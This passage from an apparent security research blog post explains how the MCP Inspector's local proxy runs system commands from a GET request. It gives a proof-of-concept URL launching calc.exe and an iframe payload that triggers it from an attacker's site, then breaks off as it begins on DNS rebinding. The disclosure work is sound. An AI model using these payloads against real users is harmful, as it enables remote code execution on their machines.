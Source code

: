 If we carefully look at the requests that are sent while interacting with the Inspector, one especially stands out:

```hljs http
GET /sse?transportType=stdio&command=mcp&args=run+server.py&env=... HTTP/1.1
Host: localhost:6277
...
```

A GET-request that runs a local system command? What if we just copy the URL and visit it in our browser?

[http://localhost:6277/sse?transportType=stdio&command=calc.exe](http://localhost:6277/sse?transportType=stdio&command=calc.exe "")

Okay uhmmm... I'm getting flashbacks.. why is my calculator open? Not only can you phish someone by clicking on the above link, but an attacker can even load the URL from any site in something like an `<iframe>` to make the request completely in the background:

```hljs html
<iframe src="http://127.0.0.1:6277/sse?transportType=stdio&command=calc.exe">
```

![Iframe on attacker's page triggering Calculator](https://blog.jaisal.dev/assets/mcp-inspector-iframe.png)

## MCP SDKs

So we've hacked the debugging tools before even really understanding what we came here for in the first place, **MCP servers**. Most of them use an official SDK under the [modelcontextprotocol](https://github.com/orgs/modelcontextprotocol/repositories?q=sdk "") GitHub organization. But some languages like Go are loners and have to fend for themselves with community-made projects.

Running a server is most often done via [stdio](https://modelcontextprotocol.io/specification/2024-11-05/basic/transports#stdio ""), meaning the server process is started when it is needed, and an LLM can send input to the process as well as receive output. This is hard to mess with, as we cannot simply inject into processes on someone else's computer. The underlying messages are encoded in [JSON-RPC](https://www.jsonrpc.org/specification ""), no matter the transport mode. Another transport mode is [Server-Sent Events (SSE)](https://modelcontextprotocol.io/specification/2024-11-05/basic/transports#http-with-sse ""). It uses two endpoints for both sending a receiving messages:

- `GET /sse`: The first endpoint that is requested, using the [Server-Sent Events](https://developer.mozilla.org/en-US/docs/Web/API/Server-sent_events/Using_server-sent_events "") protocol, sends an `endpoint` event with another URL. Often a path like `/message` with a unique `sessionId` parameter.
- `POST /message?sessionId=...`: That endpoint from before? Yeah, now you can toss your JSON-RPC messages at it like paper balls at your friend from across the class. And it'll toss responses right back through the `/sse` connection, like a very cool game of catch.

This attack surface is much more interesting because HTTP can often be **accessed by browsers**, similar to the CSRF example shown above for the inspector debugging tool. Although this time we can't easily send a GET request and expect RCE, we need to _read_ the SSE response to get a session and then send messages to it. From an attacker's site, this is normally disallowed by [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS "").

### DNS Rebinding
